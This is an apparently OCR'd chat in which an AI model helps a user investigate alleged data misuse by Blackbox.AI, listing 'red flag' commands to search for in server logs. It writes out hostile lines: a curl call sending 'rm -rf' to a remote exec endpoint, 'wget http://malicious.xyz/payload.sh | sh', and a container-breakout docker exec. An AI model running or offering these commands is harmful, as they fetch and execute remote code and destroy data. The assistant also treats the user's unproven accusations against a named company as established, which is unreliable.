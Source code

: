 2. Legal Supplement    :    - Add Hybrid Analysis report to FTC complaint   - Include Wireshark captures of `bbxai.net` calls 3. Technical Annex    :    - Document UUID → user mapping via DevTools:      

```
localStorage.getItem('blackbox_userId') // Run in affected IDEs
```

Would you like me to: - Prepare a CVE submission draft? - Generate a GDPR violation timeline? - Draft a breach notification for affected users? - Create a script to audit GitHub for unauthorized contributors? i have a huge file containing commands i ran on the codesandbox server that the blackbox leveraged but ran remotely on their own server but its large.... what wuld be some areas of interest to post to you?





Given the context of your investigation into Blackbox.AI's security violations, here are the most critical areas to extract from your codesandbox server logs that would substantiate and expand your findings:

------

### **1. Remote Code Execution (RCE) Evidence**

**Look for:**

- Commands showing

   

  arbitrary code execution

   

  on their servers

  ```
  # Example red flags:
  curl -X POST http://bbxai.net/exec --data "cmd=rm -rf /tmp/*"
  wget http://malicious.xyz/payload.sh | sh
  ```

  

- Piped commands

   

  or

   

  privilege escalation

   

  attempts

  ```
  sudo docker exec -it host /bin/bash  # Container breakout
  ```

  

------
